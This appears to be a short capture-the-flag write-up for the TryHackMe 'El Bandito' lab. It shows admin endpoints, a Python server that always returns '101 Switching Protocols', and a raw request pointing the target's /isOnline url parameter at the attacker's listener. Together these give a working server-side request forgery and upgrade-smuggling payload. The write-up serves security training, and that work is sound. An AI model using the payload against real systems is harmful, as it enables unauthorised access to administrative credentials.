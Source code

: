 
![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/main/EL%20Bandito%20(THM)/Images/image%20(3).png?raw=true)

```bash
/admin-creds
/admin-flag
/isOnline
```

Payload- save myserver.py

- python3 [myserver.py](http://myserver.py/) 5555

```bash
import sys
from http.server import HTTPServer, BaseHTTPRequestHandler

if len(sys.argv)-1 != 1:
    print("""
Usage: {} 
    """.format(sys.argv[0]))
    sys.exit()

class Redirect(BaseHTTPRequestHandler):
   def do_GET(self):
       self.protocol_version = "HTTP/1.1"
       self.send_response(101)
       self.end_headers()

HTTPServer(("", int(sys.argv[1])), Redirect).serve_forever()
```

```bash
GET /isOnline?url=http://10.4.9.248:5555/test.txt HTTP/1.1
Host: bandito.thm:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
If-Modified-Since: Wed, 20 Mar 2024 23:10:13 GMT
```
